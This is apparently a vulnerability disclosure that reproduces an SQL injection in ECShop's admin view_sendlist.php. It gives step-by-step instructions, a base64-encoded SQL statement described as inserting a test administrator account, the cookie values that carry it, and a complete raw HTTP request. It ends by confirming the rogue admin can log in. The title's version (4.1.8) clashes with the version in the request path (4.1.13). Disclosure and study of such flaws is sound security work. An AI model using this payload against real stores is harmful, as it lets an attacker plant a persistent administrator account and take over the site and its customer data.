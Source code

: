 # ecshop

ECSHOP, 4.1.8, SQL Injection

Vulnerabilities Reproduction:

1. Log in to the backend, visit the view_ sendlist.php, and then capture the packet

2. Enter the SQL statement to be executed, and then convert it into base64 encoding. Here we take adding the test administrator user as an example.
<img width="415" alt="image" src="https://github.com/curlyyyyyyyy/ecshop/assets/155808433/235fd585-510c-48a4-b749-163d3765b972">
Here is the base64 encoding.
aW5zZXJ0IGludG8gZWNzX2FkbWluX3VzZXIodXNlcl9uYW1lLGVtYWlsLHBhc3N3b3JkLGFjdGlvbl9saXN0LG5hdl9saXN0LGFnZW5jeV9pZCkgdmFsdWVzKCd0ZXN0JywnMTIzMTIzQDEyMy5jb20nLCc0ZmNlZDlhYTY2YzQzZTVmYzg3ZDVmOTE3NjIwMWViMycsJzEnLCcxJywnMScpOyM=

3. Get the value of ECSCP[lastfilterfile], here is F8F2F4EC.

4. Send the request package, and replace the previous cookie, or  just add the following string to the original cookie.
act=query&uselastfilter=1
ECSCP[lastfiltersql]=aW5zZXJ0IGludG8gZWNzX2FkbWluX3VzZXIodXNlcl9uYW1lLGVtYWlsLHBhc3N3b3JkLGFjdGlvbl9saXN0LG5hdl9saXN0LGFnZW5jeV9pZCkgdmFsdWVzKCd0ZXN0JywnMTIzMTIzQDEyMy5jb20nLCc0ZmNlZDlhYTY2YzQzZTVmYzg3ZDVmOTE3NjIwMWViMycsJzEnLCcxJywnMScpOyM=;ECSCP[lastfilterfile]=F8F2F4EC;
Successfully executed SQL statement.

GET /ECShop_V4.1.13/ECShop/source/ecshop/admin/view_sendlist.php?act=query&uselastfilter=1 HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: loginNum=4; ECS_LastCheckOrder=Wed%2C%2011%20Jan%202023%2014%3A38%3A48%20GMT; ECS[visit_times]=13; Hm_lvt_f6f37dc3416ca514857b78d0b158037e=1672820048; PHPSESSID=c80bf1de9332905dbf330e4fc2929cc4; JSESSIONID=7BAE8239C62E8C6B4AC401F85773ACED; ECSCP_ID=d9c053c22fb93a4801ea199b40025da9ec8286d3;ECSCP[lastfiltersql]=aW5zZXJ0IGludG8gZWNzX2FkbWluX3VzZXIodXNlcl9uYW1lLGVtYWlsLHBhc3N3b3JkLGFjdGlvbl9saXN0LG5hdl9saXN0LGFnZW5jeV9pZCkgdmFsdWVzKCd0ZXN0JywnMTIzMTIzQDEyMy5jb20nLCc0ZmNlZDlhYTY2YzQzZTVmYzg3ZDVmOTE3NjIwMWViMycsJzEnLCcxJywnMScpOyM=;ECSCP[lastfilterfile]=F8F2F4EC;
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
<img width="484" alt="image" src="https://github.com/curlyyyyyyyy/ecshop/assets/155808433/165d612d-27e7-4d54-9ac8-0e4cac2e9b68">
<img width="489" alt="image" src="https://github.com/curlyyyyyyyy/ecshop/assets/155808433/43846d1c-9192-415f-a0fa-9335f730d9e2">

4. Refresh the database and find that the user is successfully added, or the logged-in user finds that he can also log in successfully.
   <img width="752" alt="image" src="https://github.com/curlyyyyyyyy/ecshop/assets/155808433/f4c894ca-e513-4499-b0a1-ee64c01dac15">

 

